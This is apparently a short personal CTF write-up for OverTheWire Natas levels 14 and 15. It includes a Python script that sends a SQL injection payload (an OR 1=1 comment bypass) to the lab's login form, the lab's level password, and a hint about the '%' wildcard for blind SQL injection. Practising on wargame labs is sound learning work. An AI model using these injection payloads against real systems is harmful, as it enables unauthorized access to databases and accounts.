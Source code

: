
2024-07-18 20:49

Source: #overthewire #natas #web 

Tags: [[Injection]]
## Natas 14

```
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15

[[BlindSQL]] 

the anything character or the wild-card character in a SQL `like` statement is `%`



### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12